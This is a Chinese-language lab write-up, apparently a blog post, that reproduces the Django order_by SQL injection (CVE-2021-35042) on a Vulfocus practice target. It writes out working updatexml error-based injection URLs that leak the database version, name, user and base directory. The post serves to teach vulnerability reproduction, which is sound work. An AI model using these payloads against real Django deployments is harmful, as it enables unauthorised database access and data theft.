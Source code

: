 # 原创
：  【漏洞复现-Django-SQL注入】Django-SQL注入CVE-2021-35042

# 【漏洞复现-Django-SQL注入】Django-SQL注入CVE-2021-35042

**目录**

[一、靶场环境](#%E4%B8%80%E3%80%81%E9%9D%B6%E5%9C%BA%E7%8E%AF%E5%A2%83)

[1.1、平台：](#1.1%E3%80%81%E5%B9%B3%E5%8F%B0%EF%BC%9A)

[1.2、知识:](#1.2%E3%80%81%E6%BC%8F%E6%B4%9E%E7%89%88%E6%9C%AC%3A)

[1.3、描述：](#1.3%E3%80%81%E6%8F%8F%E8%BF%B0%EF%BC%9A)

[二、漏洞验证](#%E4%BA%8C%E3%80%81%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)

[2.1、分析：](#2.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

[2.4、解题：](#2.4%E3%80%81%E8%A7%A3%E9%A2%98%EF%BC%9A)

---


## 一、靶场环境

> 
<h3>1.1、平台：</h3>
[Vulfocus 漏洞威胁分析平台](https://vulfocus.cn/)
123.58.224.8:30212

 
打开直接给了一个vuln接口（送分了属于是）

 


> 
<h3>1.2、知识:</h3>
1、也就是分析参数带入前后有没有发生变化了
但很多时候仅仅通过页面，是无法分析出的
（使用bp抓包后，对数据包分析是否有差别）
2、掌握基本函数，注入方法
updatexml报错注入
`concat()`函数是将其连成一个字符串，因此不会符合`XPath_string`的格式，因此会造成格式错误
`0x7e` ASCII码（为`~`），updatexml报错为特殊字符、字母及之后的内容，为了防止前面的字母丢失，开头连接一个特殊字符


> 
<h3>1.3、描述：</h3>
Django 3.2 ，3.1
允许 QuerySet.order_by SQL 注入。http://ip:port/vuln/?order=


---


---


## 二、漏洞验证

> 
<h3>2.1、分析：</h3>

http://ip:port/vuln/?order=id
(从1到4升序排列)
<img alt="" height="221" src="https://img-blog.csdnimg.cn/d5b54aaf708b4ab1a9a42b38238d0e83.png" width="1191"/> http://ip:port/vuln/?order=-id
 （从4到1降序排列）

返回的数据随值的改变而改变
 （带入到了数据库中被执行）
可以通过报错注入，来查看信息
http://ip:port/vuln/?order=vuln_collection.id);select updatexml(1, concat(0x7e,(select @@basedir)),1)%23

 /vuln/?order=vuln_collection.id);select updatexml(1, concat(0x7e,(select @@version)),1)%23

/vuln/?order=vuln_collection.id);select updatexml(1, concat(0x7e,(select database())),1)%23
<img alt="" height="525" src="https://img-blog.csdnimg.cn/6834e78d36854287bf906a0f47ab2781.png" width="1200"/> /vuln/?order=vuln_collection.id);select updatexml(1, concat(0x7e,(select user())),1)%23<img alt="" height="526" src="https://img-blog.csdnimg.cn/108b3f4269404222b39975305d4d3f84.png" width="1200"/>
 ……
（报数据库，表，字段，数据）
 


> 
<h3>2.4、解题：</h3>


 

